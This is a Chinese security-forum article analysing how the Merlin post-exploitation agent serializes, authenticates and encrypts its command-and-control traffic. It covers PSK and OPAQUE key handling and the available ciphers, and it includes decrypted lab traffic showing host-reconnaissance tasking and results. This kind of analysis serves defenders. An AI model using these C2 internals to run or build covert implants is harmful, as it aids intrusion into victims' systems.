# Merlin后渗透利用框架之Merlin Agent通信加解密原理剖析-先知社区

> **来源**: https://xz.aliyun.com/news/16952  
> **文章ID**: 16952

---

## 概述

简单小结：

`春节的喜庆氛围渐行渐远，新的征程已悄然开启。愿在新的一年里，大家都能迎接机遇，开创辉煌，事业蒸蒸日上，财源滚滚而来，收获属于自己的财富与成功！`

回到正题：

前期，笔者在《Merlin后渗透利用框架之Merlin Agent远控木马剖析》文章中对Merlin Agent远控木马进行了简单剖析。

为了能够更详细的了解Merlin Agent远控木马的相关技术，笔者将从Merlin Agent远控木马的通信角度对其进行详细的研究和剖析。

经过简单研究，笔者发现：

* Merlin Agent远控木马支持多种通信协议上线，同时还支持多种通信协议构建跳板通信；
* Merlin Agent远控木马支持自定义用于加密通信数据的预共享密钥；
* Merlin Agent远控木马支持自定义开启身份认证，更新用于加密通信数据的共享密钥；
* Merlin Agent远控木马支持自定义通信编码/加密算法；

## Merlin Agent通信加密代码逻辑

为了能够详细剖析Merlin Agent远控木马的通信原理，笔者将直接基于源码进行剖析，梳理Merlin Agent远控木马的通信原理。

Merlin Agent远控木马的项目地址：`https://github.com/Ne0nd0g/merlin-agent`

### 序列化通信数据

在剖析merlin-agent源码时，笔者发现Merlin Agent远控木马的通信数据均是由`messages.Base`结构体封装的，相关代码截图如下：



进一步分析，才发现Merlin后渗透利用框架原来是将通信结构体代码进行了单独的分离，便于merlin-agent、merlin-server独立更新。

项目地址：`https://github.com/Ne0nd0g/merlin-message`，相关截图如下：



对merlin-message项目进行简单剖析，发现在`init()`函数中使用了gob.Register函数显式注册了自定义结构体类型，以便程序进行序列化和反序列化数据。

相关代码截图如下：


在merlin-message项目中，存放了Merlin后渗透利用框架所使用的各类通信数据结构，相关代码截图如下：



### 通信数据密钥

通过多轮详细剖析，笔者发现merlin-agent在发送通信数据时，将对`messages.Base`结构通信数据进行编码/加密处理，编码/加密处理所使用的共享密钥存放于`client.secret`数据中。

相关代码截图如下：





进一步对`client.secret`数据进行剖析，发现`secret` 是 `Client` 结构体的一个成员，相关代码截图如下：



`client.secret`数据将在两处被赋值：

* 使用Merlin Agent样本的psk配置信息做SHA256运算，得到预共享密钥；
* 若Merlin Agent样本开启身份认证，则使用OPAQUE协议进行用户认证，获得新的共享密钥；

相关代码截图如下：



Merlin Agent样本的默认psk配置信息代码截图如下：



merlin项目中对OPAQUE协议的介绍（**非对称密码身份验证密钥交换**）：



## Merlin Agent身份认证

通过对merlin-agent源码分析，笔者发现此项目源码大量使用了interface实现了多态，使整个项目的代码可根据具体的需求很好的扩展代码。

在进一步代码研究的过程中，笔者发现merlin-agent可通过`-auth`参数控制是否开启Merlin Agent远控木马上线过程中的身份认证功能。

Merlin Agent身份认证的interface接口代码如下：



### -auth none

若通过`-auth none`参数运行远控木马，则Merlin Agent通信过程中使用的`client.secret`共享密钥将直接由`psk`配置信息的SHA256值生成。

相关代码截图如下：



### -auth opaque

若通过`-auth opaque`参数运行远控木马，则Merlin Agent通信过程中使用的`client.secret`共享密钥将使用OPAQUE协议用户认证后的新共享密钥生成。

相关代码截图如下：



### 通信模型对比

尝试对不同`-auth`运行参数下的网络通信模型进行对比，详情如下：

* -auth none（以下是解密后的通信数据）

```
#Agent -> Server
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:StatusCheckIn      Payload:<nil>   Delegates:[]
#Server -> Agent
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Idle       Payload:<nil>   Delegates:[]

#Agent -> Server
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:StatusCheckIn      Payload:<nil>   Delegates:[]
#Server -> Agent
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Jobs       Payload:[{AgentID:01083f68-f805-4288-a379-265bed6d16e8 ID:CHxWIJwege Token:31a07d3c-f212-4421-bf44-1c5c04b018d6 Type:AgentControl Payload:{Command:agentInfo Args:[]}}] Delegates:[]

#Agent -> Server
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Jobs       Payload:[{AgentID:01083f68-f805-4288-a379-265bed6d16e8 ID:CHxWIJwege Token:31a07d3c-f212-4421-bf44-1c5c04b018d6 Type:AgentInfo Payload:{Version:2.4.1 Build:d40b50a10e57c0b30f40e5af0dfb46bd4e692d69 WaitTime:30s PaddingMax:4096 MaxRetry:7 FailedCheckin:0 Skew:3000 Proto:http SysInfo:{Platform:windows Architecture:amd64 UserName:DESKTOP-A11RBL8\admin UserGUID:S-1-5-21-364868487-762599202-2034791579-513 Integrity:2 HostName:DESKTOP-A11RBL8 Process:C:\Users\admin\Desktop\merlinAgent-Windows-x64-Debug\merlinAgent-Windows-x64-Debug.exe Pid:680 Ips:[fe80::b42f:9aa:bae5:99e/64 192.168.64.154/24 fe80::c0b9:2206:199b:31ae/64 169.254.49.174/16 ::1/128 127.0.0.1/8] Domain:} KillDate:0 JA3:}}]        Delegates:[]
#Server -> Agent
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Idle       Payload:<nil>   Delegates:[]

#Agent -> Server
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:StatusCheckIn      Payload:<nil>   Delegates:[]
#Server -> Agent
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Idle       Payload:<nil>   Delegates:[]

#Agent -> Server
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:StatusCheckIn      Payload:<nil>   Delegates:[]
#Server -> Agent
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Jobs       Payload:[{AgentID:01083f68-f805-4288-a379-265bed6d16e8 ID:RDVipBrfBn Token:31d4e04a-b933-41c3-a048-36bd5e21d4fd Type:NativePayload Payload:{Command:ifconfig Args:[]}}] Delegates:[]

#Agent -> Server
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Jobs       Payload:[{AgentID:01083f68-f805-4288-a379-265bed6d16e8 ID:RDVipBrfBn Token:31d4e04a-b933-41c3-a048-36bd5e21d4fd Type:Result Payload:{Stdout:Ethernet0
  MAC Address   00:50:56:26:43:6f
  IP Address    192.168.64.154
  Subnet Mask   255.255.255.0
  Gateway       0.0.0.0
  DHCP          Enabled
  DHCP Server:  192.168.64.254

蓝牙网络连接
  MAC Address   34:2e:b7:77:58:a2
  IP Address    0.0.0.0
  Subnet Mask   0.0.0.0
  Gateway       0.0.0.0
  DHCP          Enabled
  DHCP Server:

 Stderr:}}]     Delegates:[]
#Server -> Agent
ID:01083f68-f805-4288-a379-265bed6d16e8 Type:Idle       Payload:<nil>   Delegates:[]
```

* -auth opaque（以下是解密后的通信数据）

```
#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:OPAQUE     Payload:{Type:RegInit Payload:[0 0 0 16 124 239 211 54 242 91 74 172 168 225 77 222 213 26 78 77 0 81 133 99 226 161 254 12 214 30 193 133 146 69 105 69 57 66 77 166 242 98 136 254 251 232 53 192 214 49 202 80]}      Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:OPAQUE     Payload:{Type:RegInit Payload:[187 245 167 52 179 177 84 10 222 217 222 235 184 214 149 238 150 129 85 14 82 234 243 151 24 201 117 228 65 152 179 57 5 95 100 254 134 36 146 48 13 86 70 116 169 209 46 24 47 37 181 179 247 249 209 249 79 152 204 171 57 156 14 51 205 188 205 47 30 19 35 108 96 255 35 18 81 244 193 232 66 50 189 224 59 203 107 164 169 109 21 97 10 171 111 241]} Delegates:[]

#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:OPAQUE     Payload:{Type:RegComplete Payload:[160 4 22 248 106 12 0 162 163 225 135 54 228 31 59 191 214 43 41 94 34 7 46 165 147 189 160 169 162 181 0 192 0 0 0 128 160 10 24 236 176 97 122 133 193 134 54 0 0 251 154 233 237 216 115 224 111 134 11 130 104 65 31 231 17 132 121 143 15 127 75 32 151 100 192 38 154 216 161 39 4 50 239 63 101 44 250 108 124 190 248 132 243 157 243 195 38 146 181 134 124 141 27 34 76 145 146 233 80 245 96 174 88 114 50 158 164 185 221 62 31 198 186 107 174 76 135 125 20 6 26 142 119 161 220 60 11 210 128 155 226 90 177 230 52 149 123 58 53 36 188 7 253 239 243 52 12 117 232 152 78 47 201 200]} Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:OPAQUE     Payload:{Type:RegComplete Payload:[]}   Delegates:[]

#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:OPAQUE     Payload:{Type:AuthInit Payload:[0 0 0 16 124 239 211 54 242 91 74 172 168 225 77 222 213 26 78 77 66 186 177 226 117 247 172 250 202 102 65 122 245 25 95 179 70 38 1 223 49 126 253 82 168 188 3 196 36 192 207 140 0 0 0 32 125 149 56 222 159 114 59 29 24 148 243 22 201 81 38 93 64 191 218 37 181 187 61 63 186 248 73 17 5 23 155 76]}    Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:OPAQUE     Payload:{Type:AuthInit Payload:[187 245 167 52 179 177 84 10 222 217 222 235 184 214 149 238 150 129 85 14 82 234 243 151 24 201 117 228 65 152 179 57 0 0 0 128 160 10 24 236 176 97 122 133 193 134 54 0 0 251 154 233 237 216 115 224 111 134 11 130 104 65 31 231 17 132 121 143 15 127 75 32 151 100 192 38 154 216 161 39 4 50 239 63 101 44 250 108 124 190 248 132 243 157 243 195 38 146 181 134 124 141 27 34 76 145 146 233 80 245 96 174 88 114 50 158 164 185 221 62 31 198 186 107 174 76 135 125 20 6 26 142 119 161 220 60 11 210 128 155 226 90 177 230 52 149 123 58 53 36 188 7 253 239 243 52 12 117 232 152 78 47 201 200 5 95 100 254 134 36 146 48 13 86 70 116 169 209 46 24 47 37 181 179 247 249 209 249 79 152 204 171 57 156 14 51 99 72 122 240 85 135 49 128 26 70 202 152 218 130 250 225 161 176 19 143 34 99 177 93 11 252 182 105 173 43 166 162 0 0 0 136 8 120 27 209 157 29 128 100 246 182 157 112 131 125 235 213 14 172 0 62 106 184 201 177 223 243 134 47 92 246 188 174 0 0 0 64 72 129 229 49 75 64 152 18 149 54 77 37 55 80 108 253 84 66 150 198 227 79 120 200 235 156 2 30 149 32 147 39 54 129 184 22 224 89 89 184 78 198 131 29 48 212 150 229 109 146 156 9 221 113 121 61 220 91 139 62 1 166 49 4 0 0 0 32 214 154 246 217 21 165 187 101 150 0 255 116 172 133 121 97 129 168 33 59 143 60 89 149 124 44 89 99 92 181 178 130]}       Delegates:[]

#更新密钥
#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:OPAQUE     Payload:{Type:AuthComplete Payload:[0 0 0 104 0 0 0 64 132 201 96 14 226 161 5 160 88 121 15 92 84 164 164 87 37 52 181 212 207 218 30 149 84 8 11 129 31 171 124 24 200 253 7 63 1 9 54 202 86 92 186 35 209 43 126 91 173 154 190 135 123 236 219 8 110 87 197 71 84 184 79 2 0 0 0 32 186 222 135 56 51 19 0 87 96 196 188 222 228 80 252 142 111 178 55 138 97 245 131 88 224 4 103 0 84 152 179 54]} Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:Idle       Payload:<nil>   Delegates:[]

#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:StatusCheckIn      Payload:<nil>   Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:Jobs       Payload:[{AgentID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d ID:WbrVYEmfZl Token:a174bc07-41c6-4409-bb0c-a70d591f3e85 Type:AgentControl Payload:{Command:agentInfo Args:[]}}]  Delegates:[]

#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:Jobs       Payload:[{AgentID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d ID:WbrVYEmfZl Token:a174bc07-41c6-4409-bb0c-a70d591f3e85 Type:AgentInfo Payload:{Version:2.4.1 Build:d40b50a10e57c0b30f40e5af0dfb46bd4e692d69 WaitTime:30s PaddingMax:4096 MaxRetry:7 FailedCheckin:0 Skew:3000 Proto:http SysInfo:{Platform:windows Architecture:amd64 UserName:DESKTOP-A11RBL8\admin UserGUID:S-1-5-21-364868487-762599202-2034791579-513 Integrity:2 HostName:DESKTOP-A11RBL8 Process:C:\Users\admin\Desktop\merlinAgent-Windows-x64-Debug\merlinAgent-Windows-x64-Debug.exe Pid:2272 Ips:[fe80::b42f:9aa:bae5:99e/64 192.168.64.154/24 fe80::c0b9:2206:199b:31ae/64 169.254.49.174/16 ::1/128 127.0.0.1/8] Domain:} KillDate:0 JA3:}}]  Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:Idle       Payload:<nil>   Delegates:[]

#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:StatusCheckIn      Payload:<nil>   Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:Jobs       Payload:[{AgentID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d ID:WaZlTKmEog Token:49c74d8f-72a5-4a82-a0b4-1c953543b39a Type:NativePayload Payload:{Command:ifconfig Args:[]}}]  Delegates:[]

#Agent -> Server
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:Jobs       Payload:[{AgentID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d ID:WaZlTKmEog Token:49c74d8f-72a5-4a82-a0b4-1c953543b39a Type:Result Payload:{Stdout:Ethernet0
  MAC Address   00:50:56:26:43:6f
  IP Address    192.168.64.154
  Subnet Mask   255.255.255.0
  Gateway       0.0.0.0
  DHCP          Enabled
  DHCP Server:  192.168.64.254

蓝牙网络连接
  MAC Address   34:2e:b7:77:58:a2
  IP Address    0.0.0.0
  Subnet Mask   0.0.0.0
  Gateway       0.0.0.0
  DHCP          Enabled
  DHCP Server:

 Stderr:}}]     Delegates:[]
#Server -> Agent
ID:7cefd336-f25b-4aac-a8e1-4dded51a4e4d Type:Idle       Payload:<nil>   Delegates:[]
```

## Merlin Agent自定义通信编码/加密算法

通过对merlin-agent源码分析，笔者发现此项目源码支持多种编码、加密算法。

* 编码算法：base64、gob、hex
* 加密算法：aes、jwe、rc4、xor
